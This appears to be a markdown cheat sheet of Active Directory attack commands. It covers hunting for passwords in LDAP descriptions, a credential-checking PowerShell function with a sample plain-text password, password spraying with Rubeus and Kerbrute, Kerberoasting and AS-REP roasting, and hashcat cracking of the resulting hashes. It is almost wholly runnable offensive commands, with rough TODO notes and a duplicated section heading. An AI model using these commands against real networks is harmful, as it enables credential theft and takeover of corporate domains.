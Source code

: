 # 1. Sensitive Data in LDAP
## Start ADExplorer and search through the AD for sensitive information
`PS> adexplorer.exe`
ADexplorer> search user description field contains pw, pwd, password, pass

## Enumerate the AD with ADRecon
`PS> .\ADRecon.ps1`

`PS> .\ADRecon.ps1 -GenExcel .\ADRecon-Report-timestamp`

TODO: wget Excel file since Excel will not be installed

## Check if the password is working
```
function Test-ADCredential {

    [CmdletBinding()]
    Param
    (
        [string]$UserName,
        [string]$Password
    )
    if (!($UserName) -or !($Password)) {
        Write-Warning 'Test-ADCredential: Please specify both user name and password'
    } else {
        Add-Type -AssemblyName System.DirectoryServices.AccountManagement
        $DS = New-Object System.DirectoryServices.AccountManagement.PrincipalContext('domain')
        $DS.ValidateCredentials($UserName, $Password)
    }
}
```

`Test-ADCredential -UserName printeradm -Password "x!3945jjlkJ2mN4QQ2"`

# 2. Password Spraying
## Identify the standard domain password and start a password spray attack
### Use Rubeus
`PS> .\Rubeus.exe brute /password:Start123!`

### Use Kerbrute
`PS> Invoke-WebRequest "https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_windows_amd64.exe" -OutFile ".\kerbrute.exe"`

`PS> Import-Module .\PowerView.ps1`

`PS> (Get-NetUser | select samAccountName).samAccountName > users.txt`

`PS> .\kerbrute.exe passwordspray --domain contoso.azure .\users.txt Start123!`

ToDo error

# 3. Kerberoasting
## Identify Kerberoastable users
### PowerView
`PS> Import-Module .\PowerView.ps1`

`PS> Get-NetUser | Where-Object {$_.servicePrincipalName} | fl`

`PS> Get-NetUser -SPN | ft serviceprincipalname, samaccountname, cn, pwdlastset`

### PowerView-Dev
PS> Import-Module .\PowerView-dev.ps1

PS> Get-DomainUser | Where-Object {$_.servicePrincipalName} | fl

PS> Get-DomainUser -SPN | ft serviceprincipalname, samaccountname, cn, pwdlastset 

### Invoke-Kerberoast
PS> Import-Module .\Invoke-Kerberoast.ps1

PS> Invoke-Kerberoast

### Rubeus
PS> .\Rubeus.exe kerberoast

## Get TGS Kerberos Tickets
### PowerView-Dev
PS> Import-Module .\PowerView-dev.ps1

Get-DomainUser -SPN | Get-DomainSPNTicket -OutputFormat Hashcat | % { $_.Hash } | Out-File -Encoding ASCII kerberoasted.txt

### Invoke-Kerberoast
PS> Import-Module .\Invoke-Kerberoast.ps1

PS> Invoke-Kerberoast | % { $_.Hash } | Out-File -Encoding ASCII kerberoasted.txt

### Rubeus
PS> .\Rubeus.exe kerberoast /outfile:kerberoasted.txt

## Crack TGS tickets
PS> hashcat -a 0 -m 13100 kerberoasted.txt /usr/share/wordlists/rockyou.txt

# 3. Kerberoasting
## Identify AS-REP roastable users
### PowerView-Dev
PS> Get-DomainUser -PreauthNotRequired | ft samaccountname, pwdlastset 

PS> Get-DomainUser -UACFilter DONT_REQ_PREAUTH,NOT_PASSWORD_EXPIRED | ft samaccountname, pwdlastset

### Rubeus
PS> .\Rubeus.exe asreproast

### Invoke-ASREPRoast
PS> Import-Module .\Invoke-ASREPRoast.ps1

PS> Invoke-ASREPRoast

## ASREPRoasting
### Rubeus
PS> .\Rubeus.exe asreproast /format:hashcat /outfile:asrephashes.txt

### Invoke-ASREPRoast
PS> Invoke-ASREPRoast | % { $_.Hash } | Out-File -Encoding ASCII asrephashes.txt

## Cracking AS-REP hash with Hashcat
PS> hashcat -a 0 -m 18200 asrephashes.txt /usr/share/wordlists/rockyou.txt
